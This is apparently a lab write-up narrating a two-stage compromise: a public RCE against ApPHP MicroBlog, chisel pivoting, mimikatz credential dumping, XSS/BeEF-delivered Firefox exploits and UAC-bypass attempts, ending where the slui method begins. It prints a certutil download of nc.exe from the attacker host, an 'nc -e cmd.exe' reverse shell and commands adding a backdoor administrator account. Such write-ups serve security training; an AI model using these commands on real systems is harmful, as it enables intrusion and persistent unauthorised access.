## Background

I was doing a box which took me less than 10 minutes to root it. When I thought that's everything about it, I did post enumeration and found that the box is actually a dual homed machine (has another IP address). 

After further enumeration, it seems like I can exploit another target using a legacy browser vulnerability through XSS, and I think it is interesting to share the whole journey here. Hopefully it helps some of you to avoid this suffering process in the future :).

Attacks involved in this writeup:
- Public exploit / CVE
- Port forwarding
- XSS and BeEF
- Browser Fingerprinting
- Exploiting browser vulnerabilities
- UAC bypass

## Exploiting the first machine

The Nmap result shows:

```
Host is up (0.24s latency).
Not shown: 65517 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.38 ((Win64) OpenSSL/1.0.2q PHP/5.6.40)
|_http-title: ApPHP MicroBlog
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

First of all, anonymous login on FTP and SMB are not available. The machine has RDP and WinRM opened (might be useful for us later). There is a MySQL service but it disallows remote login (as usual). 

So, after doing all the basic checks, it seems like the only way to go is port 80. 



This is the web root directory and it shows "ApPHP MicroBlog". I discovered a file called "README.txt" (many web applications have this) that shows the web application version:



After searching the web application using `searchsploit`, these are the results:



The only thing seems interesting here is RCE (the rest are client-side attacks), but the version number does not match. Anyway, I fired the exploit just to try because it is rather simple to run it and sometimes it will still work:



Boom! The exploit still works (I was thinking about firing Gobuster if it didn't work). Now, I have an RCE and database credentials. After looking at the exploit code, it seems like an RCE attack via something like command injection. So, I decided to convert it to a more stable shell by running:

```
# on kali
nc -lvnp 443

# on the RCE: download netcat from kali and connect to kali
certutil -urlcache -split -f http://<kali ip>/nc.exe
nc -e cmd.exe <kali ip> 443
```

So, I gained root privilege just like this because the target application is run by the system user:



## Post enumeration on the first machine

After gaining root access, I did some usual post enumeration. `ipconfig` shows 2 IP addresses, which is a clear sign that I have to do something else because the machine is connected to another network.

### Port forwarding

I dumped the credentials on the machine (with root privilege) using `mimikatz` and successfully cracked an NTLM hash for the user "nicky". 

After that, I used `chisel` to do dynamic port forwarding, allowing my Kali machine to scan the host in the private network using the exploited machine as a pivot point:

```
# on kali
./chisel server -p 8000 --reverse
# transferred chisel.exe to the compromised machine and ran this
chisel.exe client <kali ip>:8000 R:socks
```

By default, dynamic port forwarding using `chisel` will use port 1080 on Kali, so I added this into my `/etc/proxychains4.conf`:

```
socks5 127.0.0.1 1080
```

*Note: If you don't understand what all these do, you just need to know that all my traffic will go through the compromised machine first (it acts as a proxy server). For instance, if I run `proxychains nmap -sT -Pn 10.1.1.1`, it will be sent to the compromised machine, then the compromised machine will send the traffic to `10.1.1.1`, any traffic returned will be sent to Kali.*

Then, I found a machine (nmap host discovery, `-sn`) with the hostname "nicky" (nmap default nmap scripts, `-sC` on port 3389, RDP). I reused the credential cracked previously to connect to the RDP port, but failed.

### Client enumeration

On the web application, the blog showed that the user "nicky" will check back on the added comments and he uses Firefox browser:


After reading the XSS exploit retrieved earlier from `searchsploit`, the comment field is vulnerable to XSS attack. On my reverse shell, I started reading the Apache access log to see how often nicky will browse to the website:



Output of the access log:



So, what I can do now is exploiting the XSS vulnerability to perform attacks like cookie stealing. However, I think I already have the database access, so stealing cookies shouldn't be useful.

On my reverse shell, I ran these commands to create a user in the administrators group to gain RDP access (recalling that the machine has RDP port open based on the nmap scan result):

```
net user test test /add
net localgroup Administrators test /add
```

Then, I connect to the RDP using a RDP client. This process is actually not needed but I thought having RDP access is easier for me to enumerate the machine because we can even enumerate browser history, saved password, connect to MySQL, etc. 

To connect to the database, I found the `mysql.exe` binary under `C:\xampp\mysql\bin`:



I enumerated all the contents in the database but seems like there is nothing useful to exploit the nicky's machine. 

## Exploiting legacy browser vulnerability

Going back to the access log, the Firefox user agent "Mozilla/5.0 (Windows NT 6.3; WOW64; rv:38.0) Gecko/20100101 Firefox/38.0" seems interesting (particularly I have never seen "WOW64", "20100101" and "Windows NT 6.3" in an user agent string before). So, I quickly search up the user agent on Google (was trying to search on sites like whatismybrowser.com later), then there is an interesting search result:



This is a module in Metasploit and it targets old Firefox browsers to get an RCE:



Based on the information above, the module will generate an URL and the victim has to visit the URL. So, I quickly think about exploiting the XSS vulnerability to redirect the victim to the URL.

On the target web application (the name field is vulnerable to XSS), I added `` as the XSS payload:



After adding this comment, everything went wrong because the name length is limited, causing the `img` tag not being closed properly. To fix this issue, I have tried many XSS payloads but nothing worked. So, I went back to my RDP client and changed the maximum length for the name column in the MySQL database:



Then, I inserted the XSS payload into the database via SQL queries manually:



*Afternote: Well, XSS is not even required because I can simply modify the web application source code (include the JavaScript) to redirect the target to the exploit URL, fml.*

On my `msfconsole`, the module received connection from nicky but the reverse shell was not obtained. After changing a lot of payloads (meterpreter, shell, reverse_http, reverse_tcp, etc), I still can't solve this issue (this took a few hours). 

So, I proceed to installed the [vulnerable Firefox browser](https://firefox.softwaredownload.co.in/firefox-38) on my Windows VM to manually test the exploit (if it does not work, then I might need to modify the exploit). On my Kali, I used my Apache2 web server and edited the "index.html" to include the XSS payload:



Then, I used my Windows VM to manually browse to my Kali web server. Again, the Metasploit module received a connection from my Windows VM but the exploit did not work. So, instead of loading an image, I created an iframe to load the entire website ("http://kali:8080/lol"):



This time, it worked like a charm! Output:





At this point, I inserted the iframe XSS payload into the database and prayed for the exploit to work. Guess what? It didn't work! I tried changing multiple payloads again and it still didn't work (it took a few hours again)...

## Fingerprinting the victim browser

Since the previous exploit does not work, I think the target browser is not vulnerable to the exploit. This time, I am thinking to use the fingerprintJS2 library to fingerprint the target browser. I have the fingerprintJS2 library installed on my Kali, but I used BeEF in this case because it includes the capability too. 

To hook the target browser to BeEF, I injected the following XSS payload into the database:



After the victim browsed to the target web application, the browser is hooked. Then, I found an interesting plugin used by the victim's browser:



Google search again and found the following exploit:



Rapid7.com shows that the module has been tested successfully on the same plugin that I enumerated earlier:


## Exploiting the browser plugin

The exploit rank is "great" in Metasploit:



So, I decided to give it a try and go to sleep if it doesn't work ;)

Again, the module generated an URL and I will need to redirect the target to this URL:



I injected the same XSS payload (iframe) into the database again:



At this point, I inserted the iframe XSS payload into the database and prayed for the exploit to work. Guess what? It didn't work! I tried changing multiple payloads again and it still didn't work (yep, same thing again...).

However, the response I got in the metasploit module is a bit different this time because it stuck at "Sending HTML":



When trying to exploit the previous legacy browser vulnerability, I could at least send the buffer overflow exploit to the target browser, although it eventually stuck in the end and didn't create a reverse shell. So, I think the iframe failed to deliver the exploit to the target (or the target closed the browser after seeing the iframe, idk because client-side attack is very tricky).

Instead of injecting an iframe to the target browser via XSS, I injected the BeEF hook script again in the database and wait for the target browser to be hooked:



Then, I used the "invisible iframe" module in BeEF framework to create an iframe in the target browser. This is a better alternative because I can keep injecting iframe to the victim browser (to test the exploit) without having to wait for the target to browse to the web application:



This time, it finally worked! However, the Meterpreter session quickly died after a few minutes:



Looking at my BeEF web UI, the target browser became offline too. So, probably the victim shut down its browser, causing the session process to die:



To overcome this problem, I migrate the process from Firefox using meterpreter module:



Furthermore, I also uploaded a static netcat binary to the target machine and run it to obtain a reverse shell in case the meterpreter session is not stable (which is not needed).

## Privilege escalation / UAC bypass

Running `whoami /groups` showed that the user account is in the Administrators group, but the integrity level is Medium:



*Note: On Windows, there is an integrity mechanism. System integrity process means SYSTEM rights. High integrity process means administrative rights. Medium integrity process means standard user rights.*

This is standard because client workstations' users are in administrators group by default to enable them to install applications, etc. However, it requires them to accept the UAC prompt (run as administrator). Normally, we won't run our browsers with administrative rights, so, the process we got is a medium integrity process.

There are many ways to bypass UAC to get a high integrity process and using Fodhelper is one of them. 

Fodhelper is an auto-elevated binary if the user is in the administrators group (try searching for it on your Windows machine and running it as administrator, UAC prompt will not appear). It is usually located at "C:\Windows\System32\fodhelper.exe" 

However, the target machine does not have a Fodhelper binary (which is weird). So, I performed enumeration on the target file system and found that there is a Keepass database on the machine:



Since the target RDP port is open, I was thinking to obtain other credentials to login to RDP and accept the UAC prompt manually using the GUI. So, I cracked the Keepass database master password using John.

After cracking the master password, I used `keepassx` to import the database because `keepass2` didn't work out for me (the Keepass database is version 1 and `keepass2` doesn't support importing version 1 database on Linux):



The database contains some credentials. I quickly used Chisel to perform port forwarding again to connect to the target RDP port (since the target machine is inside another private network). However, none of them worked.

After that, instead of trying to collect credentials, I tried another method (slui) to bypass the UAC:

